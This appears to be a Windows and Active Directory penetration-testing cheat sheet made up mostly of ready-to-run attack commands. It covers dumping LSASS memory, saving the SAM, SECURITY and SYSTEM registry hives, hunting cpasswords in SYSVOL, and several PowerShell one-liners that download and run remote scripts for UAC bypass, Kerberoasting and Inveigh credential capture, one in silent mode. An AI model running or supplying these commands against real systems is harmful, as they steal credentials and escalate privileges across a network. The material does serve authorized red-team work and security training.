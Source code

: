 ```bash
```
```bash
//$source_ip/$smb_share/tools_windows/pstools/procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

Bypass UAC and launch PowerShell window as admin
```bash
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```
```bash
reg.exe save hklm\sam c:\sam_backup reg.exe save hklm\security c:\security_backup reg.exe save hklm\system c:\system
```

### cpasswords in sysvol
```
findstr /S cpassword %logonserver%\sysvol\*.xml
```
```
findstr /S cpassword $env:logonserver\sysvol\*.xml
```
```bash
//$source_ip/$smb_share/tools_windows/gp3finder.exe -A -l
```
```bash
//$source_ip/$smb_share/tools_windows/gp3finder.exe -A -t DOMAIN_CONTROLLER -u DOMAIN\USER
```

## Kerberos

### Invoke-Kerberoast with Hashcat Output
```bash
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"
```

### Inveigh

#### Start inveigh using Basic Auth - logging to file
```bash
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -HTTPAuth Basic"
```

#### Start inveigh in silent mode (no popups)
```bash
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -WPADAuth anonymous"
```

